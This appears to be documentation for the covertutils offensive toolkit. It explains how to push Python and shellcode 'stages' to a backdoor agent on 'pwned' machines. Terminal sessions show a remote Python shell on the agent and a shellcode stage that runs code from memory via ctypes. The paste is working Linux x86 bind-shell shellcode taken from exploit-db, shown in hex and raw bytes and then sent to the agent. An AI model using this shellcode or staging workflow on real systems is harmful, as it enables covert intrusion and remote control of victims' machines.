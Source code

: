 Beyond the OS Shell
===================

The `covertutils` package has an API for creating custom stages that can be dynamically loaded to compromised machines.
If a :class:`covertutils.handlers.stageable.StageableHandler` is running in a pwned machine stages can be pushed to it.

The API is documented in the `payloads` section (under construction).

Some stages are demonstrarted in this page.


.. _pythonapi-stage:

The `Python` Stage
------------------

A Python shell with access to all internals is available.

The sent code runs directly in the `covertutils stage API`,
so it is able to access the ``storage`` and ``storage['COMMON']`` dictionaries and change internals objects at runtime.

.. code:: bash

	(127.0.0.1:49550)>
	(127.0.0.1:49550)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[99] - EXIT
	Select stream: 1
	[python] >>>
	[python] >>> print "Python module with access to the Stager API"
	[python] >>> Python module with access to the Stager API


	[python] >>> @
	No special command specified!
	Available special commands:
		@clear
		@show
		@storage
		@send
		@pyload
	[python] >>> @storage

	[python] >>> {'COMMON': {'handler': <covertutils.handlers.impl.standardshell.StandardShellHandler object at 0x7f6d472c9490>},
	 'on': True,
	 'queue': <Queue.Queue instance at 0x7f6d47066b90>}

	[python] >>> if "indentation is found" :
	[python] ...     print "The whole code block gets transmitted!"
	[python] ...
	[python] >>> The whole code block gets transmitted!

	[python] >>>
	[python] >>> print "@pyload command loads python files"
	[python] >>> @pyload command loads python files

	[python] >>> @pyload /tmp/pycode.py
	Buffer cleared!
	File '/tmp/pycode.py' loaded!
	[python] >>> @show
	====================
	print "This code exists in a file"

	====================
	[python] >>>
	[python] >>> This code exists in a file

	[python] >>>
	(127.0.0.1:49550)>






The `Shellcode` Stages
----------------------

When one can directly run stuff in a process, why not run some `shellcode` too?

And do it **directly from memory** please!

Runnning `shellcode` requires the following things:

 - Acquiring the shellcode!
 - Copying it to memory, to a known memory location
 - Making that location executable at runtime
 - ``jmp`` ing to that location

So `covertutils` has 2 `stages` that utilize ``ctypes`` built-in package to do the right things and finally run `shellcode`!
They are located under :mod:`covertutils.payloads.linux.shellcode` and :mod:`covertutils.payloads.windows.shellcode`.

A `SubShell` is also available that translates copy-pasted `shellcodes` from various sources to raw data, before sending them over to a poor `Agent`.


.. code:: bash

	(127.0.0.1:51038)> !stage mload covertutils.payloads.linux.shellcode
	 shellcode

	(127.0.0.1:51038)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[ 3] - shellcode
		[ 4] - stage
		[99] - EXIT
	Select stream: 3
	This shell will properly format shellcode
		pasted from sources like "exploit-db.com" and "msfvenom"
	[shellcode]>
	[shellcode]>
	[shellcode]> unsigned char code[]= \

	Type 'GO' when done pasting...
	[shellcode]> "\x6a\x66\x58\x99\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x5b\x5e\x52"

	Type 'GO' when done pasting...
	[shellcode]> "\x66\x68\x11\x5c\x52\x6a\x02\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd"

	Type 'GO' when done pasting...
	[shellcode]> "\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93"

	Type 'GO' when done pasting...
	[shellcode]> "\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x2f\x2f\x73\x68\x68\x2f\x62"

	Type 'GO' when done pasting...
	[shellcode]> "\x69\x6e\x89\xe3\x50\x89\xe1\xb0\x0b\xcd\x80";

	Type 'GO' when done pasting...
	[shellcode]>
	[shellcode]> GO

	Type 'GO' when done pasting...
	====================
	Pasted lines:
	unsigned char code[]= \
	"\x6a\x66\x58\x99\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x5b\x5e\x52"
	"\x66\x68\x11\x5c\x52\x6a\x02\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd"
	"\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93"
	"\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x2f\x2f\x73\x68\x68\x2f\x62"
	"\x69\x6e\x89\xe3\x50\x89\xe1\xb0\x0b\xcd\x80";


	Length of 75 bytes

	Shellcode in HEX :
	6a6658995343536a0289e1cd805b5e526668115c526a026a10515089e1b066cd80894104b304b066cd8043b066cd809359b03fcd804979f9682f2f7368682f62696e89e35089e1b00bcd80

	Shellcode in BINARY :
	jfX�SCSj��̀[^Rfh\RjjQP���f̀�A��f̀C�f̀�Y�?̀Iy�h//shh/bin��P���

	====================
	Send the shellcode over? [y/N] y
	[shellcode]>

* The `shellcode` used in the demo is taken from https://www.exploit-db.com/exploits/42254/


Oh, and on more thing! `Shellcodes` do no need to be `Null Free` (of course!). The string termination is on Python.
